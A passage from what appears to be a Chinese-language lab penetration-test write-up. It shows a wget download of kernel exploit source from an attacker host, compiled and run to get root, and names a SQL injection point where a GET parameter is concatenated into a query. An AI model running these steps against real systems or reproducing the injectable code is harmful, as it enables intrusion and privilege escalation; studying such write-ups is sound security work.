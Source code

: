 [![](assets/1704158282-e793318db5e7e84a39bc876cd4b413a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010541-54bc2338-a5a3-1.png)

> 拿到 www-data 权限，可以查看进程与连接 postgresql

## （4）内核提权（CVE-2003-0127）

```plain
wget http://192.168.220.128:8081/37292.c

chmod +x 37292.c
gcc 37292.c -o test
chmod +x test
./test
```

> 拿到 root 权限

## （5）注入点探索

```plain
文件/var/www/html/jabcd0cs/ajax_udf.php
存在注入的地方 $query = 'SELECT * FROM ' . $_GET["add_value"];
```

[![](assets/1704158282-bb19b625b7e9c8e2ffc967e226e20652.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010549-598ee1d4-a5a3-1.png)
